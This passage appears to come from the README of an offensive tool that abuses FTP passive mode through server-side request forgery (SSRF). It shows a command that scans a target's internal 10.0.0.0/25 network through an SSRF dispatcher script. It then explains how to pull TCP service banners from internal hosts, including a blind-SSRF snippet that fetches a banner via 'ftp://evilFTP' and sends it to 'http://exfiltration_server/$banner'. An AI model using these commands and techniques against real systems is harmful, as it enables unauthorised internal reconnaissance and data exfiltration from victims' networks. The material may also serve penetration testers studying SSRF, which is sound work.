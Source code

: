 Scanning the internal network of a target:
```bash
./pasvaggresvFTP.sh -t 10.0.0.0/25 -p 22,8000-9000 -x ./dispatcher_examples/target_ssrf_port.sh
```

<p align="center">
  <img width="580" src="images/port.gif"/>
</p>

## TCP Service Banner Disclosure:

This is based on the same foundations as the port scanner. The only difference is that we go one step further and attempt to recover the banner of the TCP service.
So again the client is directed to retrieve for example a file from our FTP server from where is directed to establish the data channel to the target IP:PORT. If a service that responds with a banner is listening to that port, then the client will read that response as the contents of the file requested earlier on. Now depending on the kind of SSRF we have, there are two possibilities for actually getting back that banner from the FTP client:
1. Non-Blind SSRF: extracting the banner is trivial, we simply point the client to ftp://evilFTP/whatever and the banner should be returned in the response since is a non-blind SSRF. The banner extraction should be performed within the dispatcher based on the HTML response.
2. Blind SSRF: here the extraction of the banner takes two steps. First, we get the banner response from the TCP service and then we issue another request to exfiltrate that response. This process may look like this:
```
banner=$(ssrf ftp://evilFTP/IP/PORT/file)
ssrf http://exfiltration_server/$banner
```
